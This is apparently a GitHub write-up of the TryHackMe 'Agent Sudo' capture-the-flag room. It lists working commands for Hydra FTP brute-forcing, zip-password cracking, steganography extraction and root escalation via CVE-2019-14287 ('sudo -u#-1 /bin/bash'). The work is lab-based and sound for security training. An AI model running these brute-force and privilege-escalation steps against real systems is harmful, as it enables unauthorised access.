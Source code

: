 # [Agent Sudo](https://tryhackme.com/room/agentsudoctf)

## You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

# Enumerate

## Enumerate the machine and get all the important information

### How many open ports?

1. First, let's scan for open ports using Nmap to identify potential entry points
   - Running a basic Nmap scan reveals **3** open ports on the target system

```bash
nmap IP
```

![SCREEN01](https://github.com/user-attachments/assets/1de8077f-4845-4bd1-bd59-6b6bc73b9e1b)

### How you redirect yourself to a secret page?

1. When visiting the web server at `http://IP:80`, we find a message that provides a hint
   - The welcome page indicates we need to change our **user-agent** to access the secret page

![SCREEN03](https://github.com/user-attachments/assets/90be66c7-2cc2-4baf-935c-b1ef73f469f0)

### What is the agent name?

1. Based on the hint that it's agent "C", we can modify our HTTP request with the appropriate user-agent
   - Using curl with a custom user-agent "C" reveals the agent's name is **chris**

```bash
curl -A "C" -L http://IP//
```

- `-A`: flag sets the user-agent
- `-L`: flag follows redirects

![SCREEN02](https://github.com/user-attachments/assets/5172d2cc-21f9-4af3-bd15-eb8be8b9cd23)

# Hash cracking and brute-force

## Done enumerate the machine? Time to brute your way out.

### FTP password

1. Since we discovered the username "chris", we can attempt to brute force the FTP service using Hydra

```bash
hydra -l chris -P /root/Tools/wordlists/rockyou.txt ftp://IP
```

![SCREEN04](https://github.com/user-attachments/assets/4aa57a45-cf99-4995-9cdc-49152404546b)

### Zip file password

1. After successfully gaining FTP access, we download all available files for analysis

```bash
ftp IP
# Enter username: chris
# Enter password: [discovered password]

ls -la
get To_agentJ.txt cutie-alien.jpg cutie.png
```

![SCREEN05](https://github.com/user-attachments/assets/1f307c9f-6a24-4df3-bd77-5d94f6db7ed5)

2. Examining the `To_agentJ.txt` file reveals we need to extract hidden data from the images
   - First, we use binwalk to check for embedded files in the PNG image

```bash
binwalk -e cutie.png
```

3. Next, we need to crack the password of the extracted zip file:

```bash
zip2john 8702.zip > hash.txt
john hash.txt
```

![SCREEN06](https://github.com/user-attachments/assets/63dd3d7f-40aa-49a9-bfef-cc633011bc13)

### steg password

1. Inside the extracted `8702.zip` file, we find a file containing the Base64 encoded string **QXJlYTUx**
   - Decoding this string gives us "Area51", which is the steganography password for the other image

![SCREEN07](https://github.com/user-attachments/assets/0580806c-2bf0-43ea-8965-e0bc6ef1856b)

### Who is other agent (in full name)?

### SSH password

1. Using the password "Area51", we can extract hidden data from the second image using steghide

```bash
steghide extract -sf cute-alien.jpg
# Enter passphrase: Area51
```

![SCREEN08](https://github.com/user-attachments/assets/a5b182c7-87d4-432f-9ae8-ff2fa0c19df0)

2. The extracted `message.txt` contains the full name of the other agent (**James**) and his SSH password

![SCREEN09](https://github.com/user-attachments/assets/0994cd4b-e3db-48b0-ae94-dec67255627d)

# Capture the user flag

## You know the drill

### What is the user flag?

1. Login to the target machine using the discovered SSH credentials

```bash
ssh james@IP
# Enter password: [discovered password]

ls
cat user_flag.txt
```

![SCREEN10](https://github.com/user-attachments/assets/69f1c6e4-b470-43de-8c9a-91a13d3d7410)

### What is the incident of the photo called?

1. Transfer file to our local machine for analysis

```bash
scp james@10.10.102.224:Alien_autospy.jpg .
```

2. After examining the image and researching online, we identify the incident as the famous **Roswell alien autopsy**

![SCREEN11](https://github.com/user-attachments/assets/abb2511e-8e23-439e-afc8-0d111d2f6a85)

# Privilege escalation

## Enough with the extraordinary stuff? Time to get real

### CVE number for the escalation

1. First, we check what sudo privileges James has on the system

```bash
sudo -l
```

![SCREEN12](https://github.com/user-attachments/assets/188b3ddc-73cd-499b-b9fa-63664c12b7b5)

2. The output shows James can run `/bin/bash` as anyone except root

   - Researching this pattern on Google with "sudo ALL, !root exploit db" leads us to [CVE-2019-14287](https://www.exploit-db.com/exploits/47502)

3. Exploiting the vulnerability using the documented technique

```bash
sudo -u#-1 /bin/bash
```

### What is the root flag?

### Who is Agent R?

1. The `root.txt` file contains both the flag and reveals Agent R name

```bash
cd /root
cat root.txt
```

![SCREEN13](https://github.com/user-attachments/assets/9dd9a33f-7759-452b-b0c4-80ecf44fcd9a)
